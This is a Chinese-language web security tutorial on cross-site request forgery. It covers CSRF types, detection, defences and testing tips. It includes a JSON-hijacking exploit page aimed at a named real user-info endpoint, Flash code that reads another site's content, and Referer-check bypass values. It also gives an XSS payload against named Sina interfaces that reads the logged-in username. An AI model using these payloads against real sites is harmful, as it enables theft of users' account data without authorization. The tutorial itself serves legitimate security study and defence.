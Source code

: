 
## 一、跨站请求伪造漏洞
跨站请求伪造漏洞（Cross Site Request Forgery，常简写作CSRF，也有写作XSRF的）是指攻击者可以在第三方站点制造HTTP请求并以用户在目标站点的登录态发送到目标站点，而目标站点的应用程序未校验请求来源。  

## 二、漏洞的分类
CSRF漏洞从利用形式来看，分为“写”和“写-读”两类。  
#### 2.1 CSRF写——更改设置       
CSRF“写”是指攻击载体只需要发送HTTP请求的情况。   
这一类特征是Web应用程序在有登录态的情况下更改数据，是第三方站点只需要发送请求而不需要获得返回结果。如更改个人资料、发表文章、留言等，最简单的就是利用JavaScript 自动提交表单，很容易造成蠕虫攻击，如下所示：  

![csrfch](../pictures/csrfch.png)  

假设这个页面在 http://hacker.com 上，第一个点击打开页面的人自动发了一条心情，他的好友看到了进而又点击链接进入了恶意站点，导致不断地传播开来，造成蠕虫。   

如果是 get 请求可以触发的csrf，利用方式可以在一个正常的网站上插入一张图片（src 即存在漏洞cgi 地址），当别人浏览到这个页面时就会触发请求。  

#### 2.2 CSRF写和读——获取敏感信息
CSRF“写-读”是指攻击载体不仅要先发送HTTP请求，还要获取Web应用程序对该请求的返回内容的情况。  
这一类特征是Web应用程序在有登录态的情况下会输出敏感信息，第三方站点需要发送请求并还要获得返回结果，比如 JSON Hijacking和flash装载网页。  
JSON（JavaScript Object Notation）是一种轻量的数据交换格式，特别是在跨域交换数据的时候经常用到。一个简单的 jsonHijacking 利用 exp 如下：  
``` html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title></title>
</head>

<body>
  <script type="text/javascript">
            var aaa="";
            function testa(str)
            {
              aaa=str;
            }
  </script>
  
  <script src="http://passport.iqiyi.com/apis/user/info.action?authcookie=&fields=
      userinfo%2Cqiyi_vip%2Cpps%2Caccounts%2Ctokens%2Cv&antiCsrf=&callback=testa" type="text/javascript">

  </script>
 
  <script type="text/javascript">
    alert(JSON.stringify(aaa));  //可以进一步把数据发往攻击者的站点
  </script>
  
</body>
</html>
```
另外一个地方是Flash。  
Flash的API 支持加载网页内容，如ActionScript 3.0提供的URLLoader类。但Flash装载站点内容必须得到站点根目录下的策略配置文件  crossdomain.xml的支持。如以下代码去读取www.example.com的返回内容（当然需要 http://www.example.com/crossdomain.xml 支持  flash所在域请求）：  
``` actionScript
import flash.net.*;
var myloader = new URLLoader(new URLRequest("http://www.example.com/"));
myloader.addEventListener(Event.COMPLETE,test);
myloader.load();
function test(event:Event){
var ResponseText:String = myloader.data;
text1.text = ResponseText;
stop();
}
```
如果该网页在用户登录态下会返回敏感信息，则这个flash可以获取到。  

## 三、如何检测漏洞
1. 抓包重放  
点击某功能后，使用抓包工具抓包重放，看正常返回值  
2. 去除refer/token  
去除refer/token参数，看返回值是否正常  
3. 验证  
如果正常，本地构造表单测试能否复现   
 
jsonhijacking 形式的也许可以尝试下自动测试，比如cookie 中带uin 字段的，带上refer/去掉refer 都请求一次接口，看返回内容中是否都包含了uin 的值，或者若是根据其他参数key 如 g_tk 来做限制的，可以把g_tk 值去掉，看请求是否也返回敏感信息了。  

## 四、如何防御
1. 检查 http referer 是否是同域  
如果网站有客户端，需要对此开绿灯，可能是个隐患。  
注意：ajax 跨域发起请求时是不可以添加 cookie、user-agent、referer、 x_forward_for 等http 头的，可以看下w3c给出的一份头部黑名单。否则 referer 校验就无效了。  
此外在某些情况下，浏览器也不会发送referer，比如从https 跳转到 http；flash 的请求等。  

2. 限制 cookie 的生命周期（减少发生概率）

3. 使用一次性 token
token 是一段随机的数字字母值，经常出现在表单的隐藏项中。  

4. 使用验证码（降低用户体验）  
当同域页面上有xss 漏洞时，可以通过 ajax 获取到其他页面的 token；    
token 如果出现在 get 参数中，也容易通过 refer的方式泄露；    
此时只能通过验证码来防范csrf 了。    

5. 如果是会修改内容的请求，请使用post 请求，且在满足post 内容格式要求的情况下使用`Content-Type:application/json`，而当不同源客户端添加 `Content-Type`为 `application/json` 的时候浏览器会进行预检（发送OPTIONS请求），之后请求就会失败（服务器不要在 `Access-Control-Allow-Headers` 中加入 `Content-type`），而不会进一步发起真实的post请求，否则可能造成其实数据已经被post请求修改，虽然服务器返回响应时被浏览器拦截了。    

## 五、测试tips 分享
绕过csrf 防御技巧：  
1. refer 验证绕过：只验证了是否存在关键词，如  
`Referer:http://t.qq.com `可以使用  
`Referer:http://t.qq.com.yourdomain.com`  
`Referer:http://yourdomain.com/t.qq.com/`  
`Referer:http://yourdomain.com?r=http://t.qq.com`  
注：从https域下post数据到http域的时候，浏览器不带Referer；用 iframe 加载时也不带referer；比如本地html，还有某些伪协议远程调用时是没有referer的；   
2. 有时候存在token, 服务器端不一定做了验证，可以直接把 token 参数删除看是否能返回正常值；  
3. 将 post 请求换成对应的 get 请求，也许也可以绕过 refer 限制；  
4. 找到一个满足refer要求的站点的url 跳转漏洞绕过refer 校验。
5. 利用xss 漏洞绕过refer 校验，如下payload 绕过了 data_ajax.php 的refer 校验  
```
http://interface.sina.cn/yuedu/index_feed.d.json?page=1&act=more&jsoncallback=<script>function a(msg){alert(msg.data.login_info.username);}</script><script src="http://xx.sina.com.cn/data_ajax.php?_a=top_data&rnd=16721&callback=a"></script>
```
**注意**：从页面`document.referer` 获取的是当前页面的上一跳，而发起http 请求带的referer头 是指的当前发起请求时所在的页面

## Reference
[OPTIONS 请求预检](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)    
